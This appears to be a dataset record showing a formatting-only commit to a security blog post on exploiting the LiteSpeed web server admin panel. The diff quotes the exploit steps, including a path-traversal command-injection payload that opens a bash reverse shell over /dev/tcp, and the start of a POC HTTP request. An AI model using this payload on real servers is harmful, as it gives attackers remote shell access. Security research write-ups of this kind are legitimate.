

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-02-07-ExploitLiteSpeed.md, in a window 1280 px wide and 900 px high, scrolled down 313 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2021-02-07-ExploitLiteSpeed.md

````diff
--- a/_posts/2021-02-07-ExploitLiteSpeed.md
+++ b/_posts/2021-02-07-ExploitLiteSpeed.md
@@ -15,12 +15,16 @@
 
 
 Step 1: Log in to the dashboard using the Administrator account.
+
 Step 2 : Access Server Configuration > Server > External App > Edit
+
 Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)
-Step 4 : Inject payload "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value
+
+Step 4 : Inject payload ```bash "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value```
+
 Step 5: Graceful Restart
 
-[POC]
+# [POC]
 
 ```bash
 POST /config/confMgr.php HTTP/1.1
````
